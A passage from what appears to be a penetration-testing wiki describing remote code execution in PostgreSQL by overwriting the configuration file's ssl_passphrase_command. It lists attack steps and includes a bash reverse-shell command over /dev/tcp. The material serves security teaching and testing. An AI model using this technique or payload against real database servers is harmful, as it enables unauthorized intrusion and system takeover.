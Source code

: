 {{#ref}}
../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md
{{#endref}}

### RCE with PostgreSQL extensions

Once you have **learned** from the previous post **how to upload binary files** you could try obtain **RCE uploading a postgresql extension and loading it**.

{{#ref}}
../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md
{{#endref}}

### PostgreSQL configuration file RCE

> [!NOTE]
> The following RCE vectors are especially useful in constrained SQLi contexts, as all steps can be performed through nested SELECT statements

The **configuration file** of PostgreSQL is **writable** by the **postgres user**, which is the one running the database, so as **superuser**, you can write files in the filesystem, and therefore you can **overwrite this file.**

![](<../images/image (322).png>)

#### **RCE with ssl_passphrase_command**

More information [about this technique here](https://pulsesecurity.co.nz/articles/postgres-sqli).

The configuration file have some interesting attributes that can lead to RCE:

- `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Path to the private key of the database
- `ssl_passphrase_command = ''` If the private file is protected by password (encrypted) postgresql will **execute the command indicated in this attribute**.
- `ssl_passphrase_command_supports_reload = off` **If** this attribute is **on** the **command** executed if the key is protected by password **will be executed** when `pg_reload_conf()` is **executed**.

Then, an attacker will need to:

1. **Dump private key** from the server
2. **Encrypt** downloaded private key:
   1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Overwrite**
4. **Dump** the current postgresql **configuration**
5. **Overwrite** the **configuration** with the mentioned attributes configuration:
   1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
   2. `ssl_passphrase_command_supports_reload = on`
6. Execute `pg_reload_conf()`

While testing this I noticed that this will only work if the **private key file has privileges 640**, it's **owned by root** and by the **group ssl-cert or postgres** (so the postgres user can read it), and is placed in _/var/lib/postgresql/12/main_.

